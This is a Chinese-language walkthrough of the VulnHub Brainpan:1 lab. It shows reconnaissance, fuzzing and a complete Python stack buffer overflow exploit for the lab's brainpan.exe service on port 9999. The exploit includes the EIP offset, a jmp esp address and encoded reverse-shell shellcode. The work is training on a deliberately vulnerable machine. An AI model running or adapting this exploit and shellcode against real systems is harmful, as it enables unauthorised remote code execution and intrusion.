# Brainpan:1

下载地址：https://download.vulnhub.com/brainpan/Brainpan.zip


##  **实战演练**

netdiscover命令查找靶机的IP



使用nmap查看靶机开放了那些端口



nc9999端口，拒绝访问




10000端口是个HTTP服务器，浏览器打开


没看到有什么东西，目录爆破一下。找到了一个bin目录






下载这个exe文件，查看信息。

```
root@kali:~# file brainpan.exe 
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows


root@kali:~# strings brainpan.exe 
!This program cannot be run in DOS mode.
.text
`.data
.rdata
@.bss
.idata
[^_]
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
[^_]
[get_reply] s = [%s]
[get_reply] copied %d bytes to buffer
shitstorm
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|
[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              
                          >> 
                          ACCESS DENIED
                          ACCESS GRANTED
[+] initializing winsock...
[!] winsock init failed: %d
done.
[!] could not create socket: %d
[+] server socket created.
[!] bind failed: %d
[+] bind done on port %d
[+] waiting for connections.
[+] received connection.
[+] check is %d
[!] accept failed: %d
[+] cleaning up.
-LIBGCCW32-EH-3-SJLJ-GTHR-MINGW32
w32_sharedptr->size == sizeof(W32_EH_SHARED)
../../gcc-3.4.5/gcc/config/i386/w32-shared-ptr.c
GetAtomNameA (atom, s, sizeof(s)) != 0
AddAtomA
ExitProcess
FindAtomA
GetAtomNameA
SetUnhandledExceptionFilter
__getmainargs
__p__environ
__p__fmode
__set_app_type
_assert
_cexit
_iob
_onexit
_setmode
abort
atexit
free
malloc
memset
printf
signal
strcmp
strcpy
strlen
WSACleanup
WSAGetLastError
WSAStartup
accept
bind
closesocket
htons
listen
recv
send
socket

```

看到**strcpy**这个函数，可能存在缓冲区溢出漏洞

在**XP系统**上面使用ImmunityDebugger进行调试，点击运行按钮


payload

```
root@kali:~# cat fuzz.py 
import sys,socket

victim = '192.168.0.103'
port = 9999

payload = "\x41" * 1000


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print "[-] Connecting to " + str(victim)
  s.connect((victim, port))
  s.recv(1024)

  # Send payload 
  print "[-] Sending payload.... ",
  s.send(payload)
  print "Done"

except:
  print "[-] Unable to connect to " + str(victim)
  sys.exit(0)
```


运行py



下一步，我们需要多少字节来填充缓冲区才能让我们进入**eip** ？创造测试字符串



payload  



我们可以看到EIP的位置已经被35724134覆盖了



我们将其推入Metasploit的模式偏移工具，它将为我们提供我们需要发送到缓冲区以控制的字节数`eip`




我们发送524个"A"，4个"B"和1000个"C"，看看什么效果

```
import socket,sys

junk = "\x41"*524
eip = "\x42"*4
shellcode = "\x43"*1000

payload = junk+eip+shellcode

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
try:
    s.connect(('192.168.2.14',9999)) # IP of WinXP SP3 machine running brainpan.exe
except:
    print "[-] Connection failed! Noob!"
    sys.exit(0)
 
s.recv(1024)
s.send(payload)
```

在EIP那里有4个42，被字符"B"填充了



让我们看看我们是否能找到`jmp esp`函数的地址。在Immunity Debugger中，使用`ctrl-f`并输入搜索`jmp esp`。正如您在下面看到的，我们的第一个地址`jmp esp`是`311712F3`**重新运行程序**



生成反弹shell



payload

```
root@kali:~# cat fuzz.py 
import sys,socket
 
victim = '192.168.0.101'
port = 9999
 
junk = "\x41" * 524
eip = "\xf3\x12\x17\x31" #jmp esp 311712F3 brainpan.exe
shellcode = "\x90" * 50 

buf =  ""
buf += "\xd9\xc5\xd9\x74\x24\xf4\xb8\x1e\xc6\x68\xe1\x5d\x31"
buf += "\xc9\xb1\x52\x83\xc5\x04\x31\x45\x13\x03\x5b\xd5\x8a"
buf += "\x14\x9f\x31\xc8\xd7\x5f\xc2\xad\x5e\xba\xf3\xed\x05"
buf += "\xcf\xa4\xdd\x4e\x9d\x48\x95\x03\x35\xda\xdb\x8b\x3a"
buf += "\x6b\x51\xea\x75\x6c\xca\xce\x14\xee\x11\x03\xf6\xcf"
buf += "\xd9\x56\xf7\x08\x07\x9a\xa5\xc1\x43\x09\x59\x65\x19"
buf += "\x92\xd2\x35\x8f\x92\x07\x8d\xae\xb3\x96\x85\xe8\x13"
buf += "\x19\x49\x81\x1d\x01\x8e\xac\xd4\xba\x64\x5a\xe7\x6a"
buf += "\xb5\xa3\x44\x53\x79\x56\x94\x94\xbe\x89\xe3\xec\xbc"
buf += "\x34\xf4\x2b\xbe\xe2\x71\xaf\x18\x60\x21\x0b\x98\xa5"
buf += "\xb4\xd8\x96\x02\xb2\x86\xba\x95\x17\xbd\xc7\x1e\x96"
buf += "\x11\x4e\x64\xbd\xb5\x0a\x3e\xdc\xec\xf6\x91\xe1\xee"
buf += "\x58\x4d\x44\x65\x74\x9a\xf5\x24\x11\x6f\x34\xd6\xe1"
buf += "\xe7\x4f\xa5\xd3\xa8\xfb\x21\x58\x20\x22\xb6\x9f\x1b"
buf += "\x92\x28\x5e\xa4\xe3\x61\xa5\xf0\xb3\x19\x0c\x79\x58"
buf += "\xd9\xb1\xac\xcf\x89\x1d\x1f\xb0\x79\xde\xcf\x58\x93"
buf += "\xd1\x30\x78\x9c\x3b\x59\x13\x67\xac\xa6\x4c\x67\x46"
buf += "\x4f\x8f\x67\x87\xd3\x06\x81\xcd\xfb\x4e\x1a\x7a\x65"
buf += "\xcb\xd0\x1b\x6a\xc1\x9d\x1c\xe0\xe6\x62\xd2\x01\x82"
buf += "\x70\x83\xe1\xd9\x2a\x02\xfd\xf7\x42\xc8\x6c\x9c\x92"
buf += "\x87\x8c\x0b\xc5\xc0\x63\x42\x83\xfc\xda\xfc\xb1\xfc"
buf += "\xbb\xc7\x71\xdb\x7f\xc9\x78\xae\xc4\xed\x6a\x76\xc4"
buf += "\xa9\xde\x26\x93\x67\x88\x80\x4d\xc6\x62\x5b\x21\x80"
buf += "\xe2\x1a\x09\x13\x74\x23\x44\xe5\x98\x92\x31\xb0\xa7"
buf += "\x1b\xd6\x34\xd0\x41\x46\xba\x0b\xc2\x76\xf1\x11\x63"
buf += "\x1f\x5c\xc0\x31\x42\x5f\x3f\x75\x7b\xdc\xb5\x06\x78"
buf += "\xfc\xbc\x03\xc4\xba\x2d\x7e\x55\x2f\x51\x2d\x56\x7a"

payload = junk + eip + shellcode + buf 

print(payload)


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
try:
  print "[-] Connecting to " + str(victim)
  s.connect((victim, port))
  s.recv(1024)
 
  # Send payload 
  print "[-] Sending payload.... ",
  s.send(payload)
  print "Done"
 
except:
  print "[-] Unable to connect to " + str(victim)
  sys.exit(0)
```

监听shell




连接到windows机器


上面的是windows的shell，重新生成linux



再将上面的buf修改一下就行









提权成功  


